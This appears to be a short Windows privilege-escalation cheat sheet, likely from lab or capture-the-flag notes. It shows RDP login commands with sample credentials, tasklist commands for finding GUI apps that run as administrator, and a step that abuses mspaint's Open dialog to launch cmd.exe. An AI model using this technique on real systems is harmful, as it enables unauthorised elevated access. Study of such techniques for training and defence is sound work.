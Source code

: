 # 12. Insecure GUI Apps

## Get a RDP connection on the remote machine
```bash
rdesktop -u user -p password321 10.10.254.12
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.254.12
```

## Detection
```bat
tasklist /V
tasklist /V | findstr <administrator_account_name>
tasklist /V | findstr mspaint.exe
```

## Exploitation
- "File" -> "Open" -> "file://c:/windows/system32/cmd.exe"